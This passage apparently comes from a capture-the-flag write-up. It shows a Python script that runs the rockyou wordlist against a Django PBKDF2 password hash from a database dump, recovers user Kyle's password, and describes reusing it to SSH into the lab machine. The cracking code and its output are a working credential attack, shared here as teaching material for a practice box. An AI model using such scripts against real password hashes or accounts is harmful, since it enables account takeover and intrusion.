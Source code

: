 ```bash
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
1 row in set (0.001 sec)

MariaDB [dev]> 
```

Searching online for how Django hashed get formatted, I've found [this article](https://lincolnloop.com/blog/crack-django-passwords/). With the help of [this GitHub repo](https://github.com/xros/py_django_crack) I've found (thanks to the author!), I created a python script that could crack the hash (you could also just use Hashcat to crack this hash)

```py
import py_django_crack.jake as jake
from hashlib import sha256

hash = "pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A="

# {algorithm}${iteration times}${salt}${hashed password}
parts = hash.split("$")

it_times = int(parts[1])
salt = parts[2]
hashed_psw = parts[3]

with open("/home/exyss/Desktop/rockyou.txt", "r") as f:
    for line in f:
        psw = line[:-1]

        test_hash = jake.get_base64_hashed(psw, salt, it_times, sha256)
        print(f"[*] Testing with {psw} - Hash: {test_hash}")

        if hashed_psw == test_hash:
            print("--- Found!!! ---")
            break
```

We can now crack Kyle's hash, finding out that his password is marcoantonio. We can reuse this password to SSH into the machine as Kyle, getting the user flag.

```bash
[exyss@exyss scripts]$ python crack_hash.py 
...
[*] Testing with mylife1 - Hash: 8x0kNqB7J5ZQH2hjOAurOyseUoHj8dwzDXpARhIQC4o=
[*] Testing with monkey6 - Hash: WW2jmNoKdePbbs0GotjjMfHHg5hOa7sVbY/z4X2PDC8=
[*] Testing with mocha - Hash: hhU54QsGpQ2ET6HG4yRhPiwCVzAMUUWCbYOpU5pzJr0=
[*] Testing with missing - Hash: vWYG83U+H/BZfvReqwSUOMHiNlpg0Xltix2zvaPZVdg=
[*] Testing with melrose - Hash: EU2GUoB2CWGXTi+QGrQjjMNP6zvXmaezdH0gtaRs8Qk=
[*] Testing with marcoantonio - Hash: bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=
--- Found!!! ---
```

## Lateral movement
